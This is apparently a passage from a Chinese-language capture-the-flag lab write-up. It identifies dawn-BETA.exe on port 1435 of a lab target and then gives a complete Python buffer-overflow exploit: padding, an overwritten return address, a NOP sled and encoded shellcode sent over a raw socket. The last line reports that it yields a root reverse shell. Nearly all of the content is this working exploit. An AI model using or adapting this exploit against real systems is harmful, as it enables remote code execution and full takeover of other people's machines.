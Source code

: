 看来靶机上1435端口运行的是dawn-BETA.exe

同理重新来一遍

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.7"
port = 1435
buf =  b""
buf += b"\xba\x6e\x48\x71\x2c\xdb\xcd\xd9\x74\x24\xf4\x5e\x31"
buf += b"\xc9\xb1\x12\x31\x56\x12\x03\x56\x12\x83\xa8\x4c\x93"
buf += b"\xd9\x05\x96\xa4\xc1\x36\x6b\x18\x6c\xba\xe2\x7f\xc0"
buf += b"\xdc\x39\xff\xb2\x79\x72\x3f\x78\xf9\x3b\x39\x7b\x91"
buf += b"\xb1\xb9\x79\x6e\xae\xbb\x7d\x71\x92\x35\x9c\xc1\x8c"
buf += b"\x15\x0e\x72\xe2\x95\x39\x95\xc9\x1a\x6b\x3d\xbc\x35"
buf += b"\xff\xd5\x28\x65\xd0\x47\xc0\xf0\xcd\xd5\x41\x8a\xf3"
buf += b"\x69\x6e\x41\x73"

buff = "A"*13
eip = '\x13\x15\x50\x52'
nullByte = "\x00"
nops = "\x90" * 24 
inputBuffer = buff + eip + nops  + buf + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

获得root权限反弹shell
